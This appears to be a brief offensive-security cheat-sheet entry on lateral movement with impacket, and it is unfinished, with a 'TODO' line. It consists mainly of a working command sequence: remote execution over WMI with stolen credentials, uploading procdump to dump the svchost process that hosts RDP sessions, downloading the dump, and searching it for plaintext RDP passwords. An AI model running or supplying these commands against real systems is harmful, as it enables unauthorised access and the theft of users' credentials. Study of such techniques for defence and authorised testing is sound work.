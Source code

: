 # Unix Shell

Search Tag(s): #lateral-movement #impacket

TODO: Fill in the info

```
$ wmiexec <username>:<password>@<IP>

C:\> tasklist /M:rdpcorets.dll

C:\> lput /path/to/local/procdump64.exe

C:\> procdump64.exe -ma <svchost.exe_pid> rdpcreds.dmp

C:\> lget rdpcreds.dmp

C:\> exit
```

`$ strings -el rdpcreds.dmp | grep <username> -C1`

---
## References

- [Hacktricks: RDP Sessions Abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/rdp-sessions-abuse)

- [n00py Blog: Dumping Plaintext RDP credentials from svchost.exe](https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/)